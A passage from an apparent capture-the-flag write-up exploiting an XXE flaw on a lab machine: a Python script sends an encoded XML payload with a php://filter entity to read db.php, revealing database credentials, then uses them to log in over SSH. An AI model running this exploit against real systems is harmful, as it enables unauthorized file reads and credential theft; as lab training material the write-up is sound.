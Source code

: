 Grepping for anything that ends with `sh` by running;
```bash
python3 xxe.py | grep "sh$"
```

We can see that we have a `development` user on the box. Good to keep in mind.

Now going back to that `gobuster` scan we did earlier, we see a `db.php` file.

Trying to read the `db.php` file by changing the `exploit` variable on the script to `file://db.php` did not work.

I then went to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) repo to find some payloads on XXE and got this entry; 

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```
We wrap the `index.php` file that we are trying to read with a PHP filter to encode it in `base64` before it is outputed.

Our script should now look like this.

```python
#!/usr/bin/env python3

import requests
import base64

host = 'http://10.10.11.100/tracker_diRbPr00f314.php'

# We are trying to read db.php file using a php filter to convert file
# into base64 encoded string.
exploit = "php://filter/convert.base64-encode/resource=db.php"

payload = f"""<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "{exploit}"> ]>
<bugreport>
<title>XXE</title>
<cwe>INJECTION</cwe>
<cvss>FOUND</cvss>
<reward>&xxe;</reward>
</bugreport>
"""

r = requests.post(host , data= {"data" : base64.b64encode(payload.encode())})
print(r.text)
```

Now if we run the script, we get a `base64` string and when decoded we get database credentials.

Remember that we saw `development` as a user on the box from `/etc/passwd`, we can try to ssh as `development` with the password that we found.

```bash
ssh development@10.10.11.100
```
